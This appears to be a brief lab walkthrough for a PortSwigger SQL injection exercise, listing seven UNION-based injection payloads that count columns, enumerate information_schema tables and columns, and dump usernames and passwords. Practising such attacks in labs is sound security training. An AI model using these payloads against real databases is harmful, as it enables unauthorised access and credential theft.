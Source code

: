 # [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error because 2 Column

Step - 4
---
```
' UNION SELECT 'a','a'--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM information_schema.tables--
```
1. table_name - users_losije

Step - 6
---
```
' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--
```
1. column_name - username_nlazuv and password_xcildc

Step - 7
---
```
' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--
```
